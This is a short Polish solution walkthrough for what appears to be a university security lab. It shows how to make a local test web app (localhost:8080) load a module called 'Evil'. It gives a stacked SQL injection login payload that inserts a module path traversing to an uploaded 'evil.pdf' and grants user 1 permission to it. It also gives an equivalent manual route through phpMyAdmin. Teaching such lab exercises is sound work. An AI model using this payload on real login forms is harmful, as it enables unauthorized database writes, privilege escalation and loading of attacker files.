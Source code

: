 # Wykonanie [ROZWIĄZANIE]

## Metoda SQLi

Nie rozwodząc się za bardzo nad działaniem tego zapytania, w formularzu logowania należy wprowadzić:

```
Login: ' OR 1=1; INSERT INTO modules(path, name) VALUES ('../../uploads/evil.pdf', 'Evil'); INSERT INTO permissions(module_id, user_id) VALUES (2, 1); --

Hasło: <dowolne>
```

**Na końcu loginu jest spacja!**

## phpMyAdmin

1. Zaloguj się do panelu (localhost:8081) \
2. Rozwiń bazę danych **baim_db** \
3. Wybierz tabelę **modules**

![Widok phpmyadmin](images/phpmyadmin.png)

4. Przyciskiem na samej górze przejdź do zakładki **Insert**

![Przycisk insert](images/insert.png)

5. Wpisz następujące wartości (nie trzeba wpisywać id) i kliknij GO

![Widok insert modules](images/modules.png)

6. Następnie, przejdź do tabeli **permissions** i dodaj dla użytkownika **baim** (jego id jest równe 1) dostęp do modułu o id równym 2

![Widok insert permissions](images/permissions.png)

7. Tabele powinny wyglądać tak:

![Modules](images/modules1.png)
![Permissions](images/permissions1.png)

Po odświeżeniu panelu testowanej aplikacji (localhost:8080), powinien pojawić się moduł o nazwie **Evil**
